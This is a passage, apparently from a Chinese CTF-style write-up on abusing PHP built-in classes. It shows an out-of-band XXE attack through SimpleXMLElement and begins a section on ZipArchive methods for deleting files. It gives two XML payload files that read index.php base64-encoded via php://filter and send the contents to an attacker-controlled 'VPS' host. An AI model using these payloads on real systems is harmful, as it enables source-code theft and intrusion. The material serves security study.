 发现这个计算器是由于 module 调用了 calc 类，从而实现计算器的功能的

而且参数是可控的，而且有 3 个参数可以控制，可以利用 SimpleXMLElement 进行 XXE 攻击调取源码

在 VPS 上构造：

evil.xml

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE try[
<!ENTITY % int SYSTEM "http://VPS/test/send.xml">
%int;
%all;
%send;
]>
```

send.xml

```bash
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://VPS/?%payl;'>">
```

从日志看

[![](assets/1708675446-b77244e15d0d0508640a266e3294a177.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121153-826c58aa-d138-1.png)

之后打 SQL 注入，就不再这里过多陈述

# ZipArchive:删除文件

[PHP: ZipArchive - Manual](https://www.php.net/manual/zh/class.ziparchive)

用 Zip 压缩的文件归档。

-   php 5.20

常用类方法

```bash
ZipArchive::addEmptyDir：添加一个新的文件目录
ZipArchive::addFile：将文件添加到指定 zip 压缩包中
ZipArchive::addFromString：添加新的文件同时将内容添加进去
ZipArchive::close：关闭 ziparchive
ZipArchive::extractTo：将压缩包解压
ZipArchive::open：打开一个 zip 压缩包
ZipArchive::deleteIndex：删除压缩包中的某一个文件，如：deleteIndex(0) 代表删除第一个文件
ZipArchive::deleteName：删除压缩包中的某一个文件名称，同时也将文件删除
```
